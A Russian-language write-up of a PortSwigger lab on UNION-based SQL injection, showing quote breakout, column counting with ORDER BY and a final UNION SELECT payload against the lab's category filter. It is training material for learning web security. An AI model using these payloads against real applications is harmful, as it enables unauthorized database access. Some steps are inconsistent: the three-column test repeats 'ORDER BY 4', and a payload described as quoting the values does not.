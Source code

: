 # SQL injection UNION attack, determining the number of columns returned by the query

## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к [[SQL injection]] фильтр категории.

Для решения лабы необходимо выполнить атаку, которая должна вывести дополнительную строку с `NULL` значениями.

## Notes

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице и значения для фильтрации передаются через параметры `GET`-запроса.

![](../images/Pasted image 20250118174935.png)

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```

Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![](../images/Pasted image 20250118175407.png)

Запрос к БД выглядел следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

`-- -` - это комментарий в `SQL`, с помощью я убрал всю последующую часть запроса, в текущем случае, это лишняя кавычка, которая ломала бы запрос;

Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100.

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![](../images/Pasted image 20250118180147.png)

Далее можно использовать бинарный поиск, для нахождения нужного значения. Т.е. передать 50. В случае ошибки взять 25, если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4. Для сокращения буду писать только часть пейлоада.

```
Accessories' ORDER BY 4-- -
```

![](../images/Pasted image 20250118180405.png)

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

Супер. ~~Сбер теперь купер~~.

![](../images/Pasted image 20250118180513.png)
 
 Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД:
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![](../images/Pasted image 20250118180901.png)

Оберну значения в кавычки:

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![](../images/Pasted image 20250118180835.png)

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.
